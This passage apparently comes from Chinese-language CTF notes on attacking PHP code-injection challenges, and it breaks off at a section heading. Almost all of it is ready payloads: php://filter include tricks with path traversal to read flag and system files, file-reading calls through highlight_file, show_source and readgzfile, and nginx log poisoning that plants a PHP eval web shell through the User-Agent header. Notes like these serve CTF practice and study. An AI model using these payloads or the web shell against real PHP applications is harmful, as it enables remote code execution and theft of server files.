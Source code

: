 使用 `php://filter` 伪协议：
```c
c=include "php://filter/convert.iconv.UTF8.UTF16/resource=flag.php";

c=include "php://filter/convert.iconv.UTF8.UTF16/resource=../../../../../flag.txt";

c=include "php://filter/convert.iconv.UTF8.UTF16/resource=/flag.txt";

?c=include($_GET[x]);&x=php://filter/convert.iconv.UTF8.UTF16/resource=flag.php
```

另有 `php://input` 及 `data://` 伪协议方法。

### 7.2.3 日志包含

可尝试包含日志文件，示例：
```c
?c=include(../../../var/log/nginx/access.log)
```

在请求中，在 UA 头中植入后门代码：
```php
<?php eval($_POST['x']);?>
```

### 7.2.3 针对文件包含的过滤

利用传参的方式实现伪协议绕过。

## 7.3 highlight函数文件读取

```c
c=highlight_file("flag.php");
c=highlight_file("../../../../../flag.txt");
c=highlight_file("/flag.txt");
```

## 7.4 show_source函数文件读取

```c
c=show_source("flag.php");
c=show_source("../../../../../flag.txt");
c=show_source("/flag.txt");
```

## 7.5 readgzfile函数文件读取

```c
c=readgzfile("flag.php");
c=readgzfile("../../../../../flag.txt");
c=readgzfile("/flag.txt");
```

## 7.6 require_once函数文件读取
